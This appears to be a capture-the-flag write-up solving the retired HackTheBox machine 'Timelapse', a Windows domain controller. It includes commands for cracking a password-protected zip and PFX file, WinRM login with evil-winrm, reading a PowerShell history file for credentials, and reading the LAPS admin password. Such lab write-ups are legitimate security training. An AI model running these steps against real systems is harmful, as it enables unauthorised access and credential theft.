 ```yaml
---
title: "Timelapse"
collection: publications
permalink: /publication/timelapse
excerpt: 'This is a retired machine from HackTheBox'
date: 2023-08-01
venue: '08-01'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/timelapse_header.png)

**LINK:** [Timelapse](https://app.hackthebox.com/machines/Timelapse)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sV -A -p- 10.10.11.152 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-25 07:04 EDT
Nmap scan report for 10.10.11.152
Host is up (0.14s latency).
Not shown: 65518 filtered tcp ports (no-response)
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2023-07-25 19:12:30Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49696/tcp open  msrpc             Microsoft Windows RPC
50548/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

the scan reveals 17 open ports :
 * ``DNS`` on port 53
 * ``Kerberos`` on port 88
 * ``ldap`` on port 389 and his hostaname is timelpase.htb

> these open ports suggest that we're dealing with a domain controller.

* Let's check the ``smb`` shares.

![timelapse1](/images/timelapse1.png)

* There is an only open share named *shares* .

![timelapse2](/images/timelapse2.png)

* there is a zip file for ``winrm``, let's download it to our local machine and unzip it.

![timelapse4](/images/timelapse4.png)

* Unfortunately the zip file is password protected, let's use ``zip2john`` to generate a hash that can be brute forced with ``john the ripper``.

```bash
# zip2john winrm_backup.zip > file.john
ver 2.0 efh 5455 efh 7875 winrm_backup.zip/legacyy_dev_auth.pfx PKZIP Encr: TS_chk, cmplen=2405, decmplen=2555, crc=12EC5683 ts=72AA cs=72aa type=8
``` 

* using john to brute force it :

![timelapse5](/images/timelapse5.png)

* Let's unzip the file now.

![timelapse6](/images/timelapse6.png)

> PFX files are digital certificates that contain both the SSL certificate (public keys) and private key. They’re essential for establishing secure connections between two devices.

* In order to extract the certificate and the private key, we should run the following commands :

```bash
# openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
# openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pe
```
![timelapse7](/images/timelapse7.png)

* Since we don't have the password, let's convert it to a john hash.

```bash
# pfx2john legacyy_dev_auth.pfx > pfx.john
```

* let's crack it :

![timelapse8](/images/timelapse8.png)

# User Flag :

* After creating the certificate and the key using ``openssl``, let's connect to ``WinRM`` using ``evil-winrm``.

![timelapse9](/images/timelapse9.png)

* Get the user flag. 

# ROOT Flag : 

* Let's check the powershell history file .

```bash
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![timelapse10](/images/timelapse10.png)

* The file contains commands run by the user ``legacyy``, one of the commands was the creds for the user ``svc_deploy``.

* Reconnecting with ``svc_deploy`` creds.

```bash
evil-winrm -i 10.10.11.152 -u svc_deploy -p 'redacted' -S
```

* While i was enumerating, i found that the ``svc_deploy`` user is part of an interesting group.

![timelapse11](/images/timelapse11.png)

> LAPS manages the local admin password, so since we are part of the LAPS_Readers we can read the administrator password.

```bash
Get-ADComputer -identity DC01 -properties *
```

![timelapse12](/images/timelapse12.png)

* Now it's time to reconnect but this time as the ``administrator``.

* The root.txt file was not in the desktop folder.

![timelapse13](/images/timelapse13.png)

* I found another user called ``TRX``, if you check his ``Desktop`` folder you will find the root flag.

![timelapse14](/images/timelapse14.png)



